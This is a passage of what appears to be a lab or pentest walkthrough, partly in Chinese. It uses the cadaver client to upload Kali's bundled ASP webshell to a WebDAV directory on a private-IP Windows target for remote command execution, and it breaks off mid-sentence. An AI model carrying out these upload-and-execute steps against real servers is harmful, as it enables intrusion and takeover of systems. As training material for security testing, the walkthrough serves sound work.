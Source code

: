用于 Unix 的命令行 WebDAV 客户端。

```
root@kali:~# cadaver -h
用法：cadaver [OPTIONS] http://hostname[:port]/path
   端口默认为 80，路径默认为 '/'
选项：
   -t，--allow 允许 cd/open 进入未启用 WebDAV 的集合。
   -r, --rcfile=FILE 从 FILE 而不是 ~/.cadaverrc 中读取脚本。
   -p, --proxy=PROXY[:PORT] 使用代理主机 PROXY 和可选的代理端口 PORT。
   -V, --version 显示版本信息。
   -h, --help 显示此帮助消息。
请将错误报告和功能请求发送至 <cadaver@webdav.org>
```

```
cadaver http://10.2.17.124/webdav

dav:/webdav/> ls
```

We can upload a webshell in order to obtain some forms of command execution on the target system. In order to do that, we open a new tab here. Kali Linux prepackage with serious webshell, they can be access under the:

```
ls -al /usr/share/webshells/
asp/    aspx/   cfm/    jsp/    laudanum/   perl/   php/    seclists/
```

Only asp file can be executed:

```
ls -al /usr/share/webshells/asp/
cmd-asp-5.1.asp cmdasp.asp  webshell.asp
```

Upload webshell.asp to webdav directory.

hit back to cadaver.

```
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp
```

back in browser, refresh the listing of webdav directory:

```
10.2.17.124/webdav
```

We can launch the webshell by clicking on it, this will provide you an input box. It allows you to perform command execution, and allows you to perform commands on the target system. The output of these commands will be output in this page.

```
10.2.17.124/webdav/webshell.asp
```

Because the target is Windows system, we can launch:
